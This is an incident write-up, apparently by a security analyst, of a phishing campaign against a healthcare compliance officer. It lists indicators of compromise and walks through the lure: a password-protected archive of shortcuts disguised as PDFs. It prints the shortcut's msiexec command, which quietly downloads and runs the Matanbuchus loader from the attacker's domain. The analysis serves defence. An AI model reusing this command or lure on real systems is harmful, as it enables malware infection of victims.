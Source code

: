 <div align="center">
  
# :space_invader: ardoelur[.]com :space_invader:

## :page_facing_up: Summary :page_facing_up:

<div align="left">
  
Attacker was pretending to be a potential patient who is wanting to see a doctor. Attacker sent a Google Drive link to the compliance officer's email which downloaded a zip file containing shortcuts disguised as PDFs, which downloaded and ran Matanbuchus.

<div align="center">

## :mag_right: Indicators of Compromise :mag:

| Type | Value |
| --- | --- |
| Domain | ardoelur[.]com |
| SHA256 | 053dc08c05a41bb787cc92abe168f9d8134bce97225d925bc5bd7cf74d633bf1 |
| SHA256 | 39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b |
| SHA256 | 66420437b941b2a15cff4ed62f13d8ed51f7fbb9f3a7bee441b12d875a2841b2 |
| SHA256 | 775686b54d18c51c5143183d2c200a01404d626a7ef1141ff28618b0a5dbaeaa |
| SHA256 | 844448b0ce4dea216a6e447e4f7beea6ca989f685b6c7beced41b971f692a591 |
| SHA256 | d4457159fc571c73df674668fd91ef34ae05b748cbe373fa88b54de040054a2d |
| URL | hxxps[://]ardoelur[.]com/Dramatisation[.]msi |
| URL | hxxps[://]drive[.]google[.]com/file/d/1rV36AAHTVHUy2i6wSvpg4YupgQCGyU7n/view?usp=sharing |

## :checkered_flag: Attack Progression :racing_car:

<div align="left">

1) Attacker goes to the victim's company website, and finds the compliance officer's email address.
2) Attacker sends an email to the compliance officer pretending to be a potential patient who is needing a recommendation for a doctor. They include a Google Drive link that they say contains their medical files, as well as the password of 1424 for the 7z file.

> The attacker's strategy is to send this to the healthcare compliance officer since they would be the most familiar with HIPAA, and would potentially not scan or share any files since they would contain PHI, especially with the security department. They also password protect the 7z file to prevent email security services and AV from scanning the file. This plan fails, however, since the compliance officer does not handle these types of requests, and the documents themselves don't contain any medical information. I was able to verify this by first using an onsite sandbox, which is HIPAA compliant, even if it would have contained PHI.

3) Victim clicks on the Google Drive link: hxxps[://]drive[.]google[.]com/file/d/1rV36AAHTVHUy2i6wSvpg4YupgQCGyU7n/view?usp=sharing

![ardoelur_com (Google Drive) 01](https://github.com/user-attachments/assets/5a6d4535-6c78-4b21-aa65-b10fcc4dba88)

4) Victim downloads _findocs.7z_ ([d4457159fc571c73df674668fd91ef34ae05b748cbe373fa88b54de040054a2d](https://www.virustotal.com/gui/file/d4457159fc571c73df674668fd91ef34ae05b748cbe373fa88b54de040054a2d/detection)).

![ardoelur_com (Google Drive) 02](https://github.com/user-attachments/assets/1189eb7d-726a-414d-8b5f-ed756804f3f4)

5) Victim extracts the contents of _findocs.7z_ using 7-Zip and the password 1424.

![ardoelur_com (findocs) 01](https://github.com/user-attachments/assets/acccb1c1-2588-41b4-9e6f-2ad92480c9ca)

6) _findocs.7x_ contains 5 files:
    - _Inventory.pdf.lnk_ ([775686b54d18c51c5143183d2c200a01404d626a7ef1141ff28618b0a5dbaeaa](https://www.virustotal.com/gui/file/775686b54d18c51c5143183d2c200a01404d626a7ef1141ff28618b0a5dbaeaa/detection))
    - _inventory2.pdf_ ([844448b0ce4dea216a6e447e4f7beea6ca989f685b6c7beced41b971f692a591](https://www.virustotal.com/gui/file/844448b0ce4dea216a6e447e4f7beea6ca989f685b6c7beced41b971f692a591/detection))
    - _Manulife statement with value.pdf_ ([66420437b941b2a15cff4ed62f13d8ed51f7fbb9f3a7bee441b12d875a2841b2](https://www.virustotal.com/gui/file/66420437b941b2a15cff4ed62f13d8ed51f7fbb9f3a7bee441b12d875a2841b2/detection))
    - _Scanned inventory.pdf.lnk_ ([39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b](https://www.virustotal.com/gui/file/39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b/detection))
    - _Statement_2024.lnk_ ([39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b](https://www.virustotal.com/gui/file/39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b/detection))

![ardoelur_com (findocs) 02](https://github.com/user-attachments/assets/c3e42b29-0876-4925-ab88-98f9ea2b6d1e)

> _Scanned inventory.pdf.lnk_ and _Statement_2024.lnk_ are the same file, just with different names. The only malicious files are the shortcuts: _Inventory.pdf.lnk_, _Scanned inventory.pdf.lnk_, and _Statement_2024.lnk_. _Manulife statement with value.pdf_ is an encrypted PDF, which is not called upon at any point during the attack, and cannot be opened with the 1424 password. _inventory2.pdf_ is a benign PDF of an inventory of assets for a probated estate in New Castle county in Delaware. The form is filled out with personal information. A portion of this document is listed below, however, I have cropped out much of the document in order to protect the PII contained within it. 

![ardoelur_com (findocs) 03](https://github.com/user-attachments/assets/b4a219e5-4ef3-4291-afe3-c472e13e1042)

7) The victim clicks on one of the shortcuts disguised as PDFs, which executes the following code:

```batchfile
"C:\Windows\system32\msiexec[.]exe" -package httPs:/\ardoelur.com/Dramatisation.msi -q
```

![ardoelur_com (findocs) 04](https://github.com/user-attachments/assets/cf353c4c-02a5-4efc-8d9f-79559fba002d)

8) _Dramatisation.msi_ ([053dc08c05a41bb787cc92abe168f9d8134bce97225d925bc5bd7cf74d633bf1](https://www.virustotal.com/gui/file/053dc08c05a41bb787cc92abe168f9d8134bce97225d925bc5bd7cf74d633bf1/detection)) is downloaded and executed. _Dramatisation.msi_ is a Matanbuchus Loader, which is a MaaS (Malware-as-a-Service). Information concerning Matanbuchus can be found here on Palo Alto's website: [Matanbuchus: Malware-as-a-Service with Demonic Intentions](https://unit42.paloaltonetworks.com/matanbuchus-malware-as-a-service/).

<div align="center">

## :bulb: OSINT Insights :bulb:

<div align="left">
  
1) [URLScan](https://urlscan.io/result/3dd1cd27-cb8f-4374-8b15-cbde72b9055b/#summary) shows a scan of _hxxps[://]ardoelur[.]com/project/blog666/_ on June 21st, 2024. The screenshot shows that this is the login page for the Matanbuchus Loader this attacker is using.

![3dd1cd27-cb8f-4374-8b15-cbde72b9055b](https://github.com/user-attachments/assets/e4dc29e7-7f6c-46ea-9b2d-7d0da36c4401)

2) _ardoelur[.]com_ is hosted on a Russian server at _194[.]67[.]193[.]43_.

![194_67_193_43 (Historical A)](https://github.com/user-attachments/assets/dc392312-fc58-4084-be28-e7b9b4fa2a13)

3) Two other domains are currently utilizing _194[.]67[.]193[.]43_: _comarmo[.]com_ and _maduroma[.]com_. Both of these domains have the same Matanbuchus dashboard in the same file path: [_hxxps[://]comarmo[.]com/project/blog666/_](https://urlscan.io/result/c56882c5-7aa3-4c2d-b745-35330e53a637/) and [_hxxps[://]maduroma[.]com/project/blog666/_](https://urlscan.io/result/da20d303-4e7c-427a-94ac-378ede03cee4/).
